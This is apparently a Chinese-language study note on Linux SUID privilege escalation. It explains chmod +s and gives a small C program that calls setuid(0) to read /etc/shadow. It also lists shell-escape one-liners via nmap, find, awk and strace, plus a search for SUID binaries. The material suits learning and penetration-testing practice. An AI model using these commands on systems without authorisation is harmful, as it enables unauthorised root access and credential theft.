





## 基本原理
chmod命令可以改变文件或者路径的一些权限属性。在chmod的众多参数中，有一个s参数引发了一个重大的问题。s参数的含义是允许程序临时以所有者权限运行。其使用命令如下：
```shell
#chmod +s targetfile 
chmod +s ./exp
```
## 原理验证
编写如下代码 persist.c
```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
int main(){
    setuid(0);
    system("cat /etc/shadow")
    return 0;
}
```
在root权限下编译
```shell
gcc persist.c -o persist
```
在普通用户权限下执行



在root用户下添加s权限，并在普通用户下执行


## 实战利用
可常用命令如下
```shell
nmap --interactive \ !sh
find . -type f -exec /bin/bash ;
awk 'BEGIN {system("/bin/bash")}'
strace -o/dev/null /bin/bash
```
寻找本机器环境下的s属性程序

```shell
find / -perm -u=s -type f 2>/dev/null
```


使用find提权




## 问题思考
在这里很疑惑两点
### bash shell 不是以root启动
find 提权使用bash shell 命令是以root 启动，但是给的bash shell 启动权限是低权限用户

### 使用root启动python，但是用户还是低权限用户




